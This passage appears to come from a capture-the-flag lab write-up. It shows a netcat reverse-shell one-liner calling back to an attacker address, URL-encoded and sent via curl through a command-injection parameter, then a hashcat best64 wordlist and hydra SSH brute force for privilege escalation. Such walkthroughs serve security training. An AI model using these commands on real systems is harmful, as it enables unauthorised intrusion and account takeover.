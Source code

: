 Now Let's get a reverse shell using the following command:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.14.124 1234 >/tmp/f
```

But before that, we need to URL encode it first.

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.11.14.124%201234%20%3E%2Ftmp%2Ff
```

Now setup a listener and send the command using `curl`.

```bash
curl 'http://10.10.117.23/welcome.php?c=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.11.14.124%201234%20%3E%2Ftmp%2Ff' -X POST -d 'log=Log' -b "PHPSESSID=o043dgfcg7efu1eb06v5ouk81u" -H "Content-Type: application/x-www-form-urlencoded"
```

![](7.png)

We got the shell, and we can stabilize it using python pty.

# **Privilege Escalation**

If we check `adiran`'s home directory, we find one readable file.

![](8.png)

It says rule best of 64 + exclamation.

Searching on google we find that best64 is a rule used by password cracking tools (john, hashcat) for creating custom password lists.

![](9.png)

Let's generate the password list.

```bash
$ echo 'ettubrute' > word.txt # add the word 'ettubrute' to the file we'll be using to generate the list from.

$ hashcat --force word.txt -r /usr/share/hashcat/rules/best64.rule --stdout > hashcat_words.txt #generate the wordlist with best64 rule.

$ sed -i 's/$/!/' hashcat_words.txt #add exclamation point at the end of every word.
```

Now let's brute force adrian's ssh password with `hydra` using the new list.

![](10.png)

We got the password, now let's ssh into the machine.

![](11.png)
